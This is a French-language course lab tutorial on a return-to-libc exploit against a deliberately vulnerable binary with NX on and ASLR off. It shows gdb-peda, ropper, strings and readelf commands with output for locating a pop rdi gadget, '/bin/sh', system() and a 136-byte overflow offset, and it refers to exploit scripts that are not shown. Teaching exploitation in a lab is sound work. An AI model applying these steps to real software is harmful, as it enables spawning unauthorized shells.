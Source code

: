 ## Return 2 libc

* Le binaire est compilé avec le flag NX activé (moyen de protection par le noyau rendant la pile non exécutable).

* Le mécanisme de randomisation de l'espace d'adresse ASLR est désactivé

* Installation de l'outil ropper :  https://github.com/sashs/Ropper

![ret1](https://github.com/aabda2000/sti3a-security/assets/38082725/a7908f53-49b0-4ed9-8a84-5e8b42212306)


## Comment retourner à libc ?
Ici, l'objectif est de détourner le flot d'exécution normal du processus : Il s'agit de le rediriger pour exéuter la fonction system de libc:

int system(const char *command). 

plus précisément, on voudrait exécuter l'instruction : system("/bin/sh")

## Gadget poprdi ?

On commence notre investigation par la recherche d'un gadget de type pop rdi (il faut d'abord faire un break,sur vuln par exemple, dans gdb, et ensuite lancer le programme):


![ret2](https://github.com/aabda2000/sti3a-security/assets/38082725/b24826df-0697-4033-baf7-e3a3d395324a)

sinon, vous pouvez cherchez ce gadget en fournissant les adresses de début et de fin de mappage de libc:

![ret3](https://github.com/aabda2000/sti3a-security/assets/38082725/50c7c117-e152-4260-a75e-13440038dfa0)


gdb-peda$ ropsearch "pop rdi ; ret" 0x00007ffff7dee000 0x00007ffff7faf000

ou

gdb-peda$ dumprop

ou

gdb-peda$ asmsearch "pop rdi ; ret"

## Chercher l'adresse de la chaîne "/bin/sh"

![ret4](https://github.com/aabda2000/sti3a-security/assets/38082725/e73f41cb-5a46-478e-8a6c-3b82b30164a4)

## Chercher l'adresse de la fonction system

gdb-peda$ p system

$1 = {int (const char *)} 0x7ffff7e36e50 <__libc_system>

gdb-peda$

## Chercher l'offset

gdb-peda$ pattern_create 400 entry.txt

Writing pattern of 400 chars to filename "entry.txt"

gdb-peda$ 

gdb-peda$ r < <(cat entry.txt)

Starting program: /home/insa/advanced/secu/cm/02-ret2libc/ret2libc < <(cat entry.txt)

adress of buf=0x7fffffffde10

Stopped reason: SIGSEGV

0x0000000000401178 in vuln () at ret2libc.c:10

10	}

gdb-peda$ x/1wx $rsp

0x7fffffffde98:	0x41514141

gdb-peda$ pattern offset 0x41514141

1095844161 found at offset: 136

l'offset vaut 136

La génération d'une erreur de segmentation (et d'un coredump (contenant l'état de la mémoire au moment du décès du processus,
sous GNU/Linux) est le syndrome que notre application est effectivement affectée par l'insertion d'un trop grand nombre de caractères en entrée.

## Lancez l'attaque

Mettez les différentes adresses trouvées dans les scripts pythons (les scripts exploitx.py où x est le numéro de l'exploit)


## Voici une alternative pour trouver les offsets:

Trouver l'offset d'un gadget poprdi (avec l'outil indépendant Ropper):

![Schéma de l'architecture](images/poprdi.png)

Ma méthode préférée pour trouver l'offset de /bin/sh (avec la commande strings):

❯ strings -a -t x /usr/lib/x86_64-linux-gnu/libc.so.6  | grep /bin/sh

 1d8678 /bin/sh

 Ma méthode préférée pour trouver l'adresse de la fonction system:

❯ readelf -s /usr/lib/x86_64-linux-gnu/libc.so.6 | grep system

1481: 0000000000050d70    45 FUNC    WEAK   DEFAULT   15 system@@GLIBC_2.2.5

[Notez l'offset 0000000000050d70 de la fonction system]

Comme vous l'avez compris, les décalages/offsets  que nous avons découverts ci-dessus seront ajoutés à l'adresse à laquelle la libc sera chargée. Étant donné que l'ASLR est désactivé, cette adresse sera la même à chaque exécution du programme vulnérable et peut être trouvée en examinant l'allocation mémoire du processus.
